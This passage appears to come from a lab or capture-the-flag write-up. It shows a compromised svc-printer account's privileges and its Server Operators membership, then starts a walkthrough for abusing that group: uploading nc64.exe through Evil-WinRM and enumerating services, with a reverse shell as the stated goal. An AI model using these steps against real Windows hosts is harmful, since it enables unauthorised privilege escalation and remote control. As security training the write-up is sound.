 ```shell
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Examining the results, we can see that svc-printer is a member of the group Server Operators.

### Using sc.exe to restart VSS service and get a reverse shell with nc64.exe

Members of the Server Operators group can modify, start and stop services. We can abuse this to get a reverse shell using nc64.exe.

First upload nc64.exe:

```shell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> cd C:\Windows\Temp
*Evil-WinRM* PS C:\Windows\Temp> upload nc64.exe
```

We can try these commands to try to enumerate services:

```shell
# Using sc.exe on cmd
sc.exe query

# On PowerShell
$services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where {$_.access.IdentityReference -match 'Server Operators'}}
```

